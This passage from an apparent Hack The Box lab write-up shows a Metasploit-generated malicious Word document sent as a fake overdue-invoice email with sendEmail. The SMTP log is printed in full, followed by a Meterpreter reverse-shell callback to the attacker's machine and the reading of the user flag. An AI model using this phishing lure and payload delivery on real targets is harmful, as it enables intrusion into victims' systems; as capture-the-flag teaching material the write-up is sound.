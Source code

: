 

At this point, metasploit has created the document for me, and started
two listeners, one on 80 to server the HTA file, and one on 443 to get a
callback from meterpreter. It's my job to get the rtf document to the
target.

I'll send the email the same as in the manual way, but this time with
the Metasploit-generated document:



    root@kali# sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a /root/.msf4/local/invoice.doc -s 10.10.10.77 -v
    Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => Connecting to 10.10.10.77:25
    Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => My IP address is: 10.10.14.3
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     220 Mail Service ready
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         EHLO kali
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         MAIL FROM:<0xdf@megabank.com>
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250 OK
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         RCPT TO:<nico@megabank.com>
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     250 OK
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending:         DATA
    Nov 05 12:06:20 kali sendEmail[20127]: SUCCESS => Received:     354 OK, send.
    Nov 05 12:06:20 kali sendEmail[20127]: INFO => Sending message body
    Nov 05 12:06:20 kali sendEmail[20127]: Setting content-type: text/plain
    Nov 05 12:06:20 kali sendEmail[20127]: DEBUG => Sending the attachment [/root/.msf4/local/invoice.doc]
    Nov 05 12:06:27 kali sendEmail[20127]: SUCCESS => Received:     250 Queued (6.562 seconds)
    Nov 05 12:06:27 kali sendEmail[20127]: Email was sent successfully!  From: <0xdf@megabank.com> To: <nico@megabank.com> Subject: [Invoice Attached] Attachment(s): [invoice.doc] Server: [10.10.10.77:25]



A minute later, in the metasploit window:



    [*] Sending stage (179779 bytes) to 10.10.10.77
    [*] Meterpreter session 1 opened (10.10.14.3:443 -> 10.10.10.77:53907) at 2018-11-05 12:06:40 -0500
    msf5 exploit(windows/fileformat/office_word_hta) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: HTB\nico



### User.txt

With either shell, I can to to `\users\nico\desktop` and find
`user.txt`:



    C:\Users\nico\Desktop>type user.txt
    fa363aeb...
